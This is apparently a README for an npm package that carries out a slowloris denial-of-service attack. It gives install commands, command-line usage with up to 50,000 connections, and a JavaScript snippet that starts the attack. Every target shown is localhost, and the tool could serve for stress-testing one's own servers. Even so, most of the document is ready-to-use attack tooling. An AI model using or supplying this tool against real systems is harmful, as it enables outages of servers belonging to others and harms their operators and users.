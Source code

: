 
### `Intro`
Example of slowloris attack it should start with a few connections and try and ramp up until I can't connected anymore

#### `Install`
``` bash
npm install --save git+http://git@github.com/anzerr/slowloris.tool.git
```

``` bash
git clone git+http://git@github.com/anzerr/slowloris.tool.git &&
cd slowloris.tool &&
npm link
```

### `Example`

``` bash
slowloris --host localhost:8080 --max 50000
slowloris --host https://localhost:8080
```

``` javascript
const Loris = require('slowloris.tool');
let l = new Loris('http://localhost:8080', 100000).attack();
return new Promise((resolve) => l.once('end', resolve)).then(() => {
	console.log('attack ended');
}).catch(console.log);
```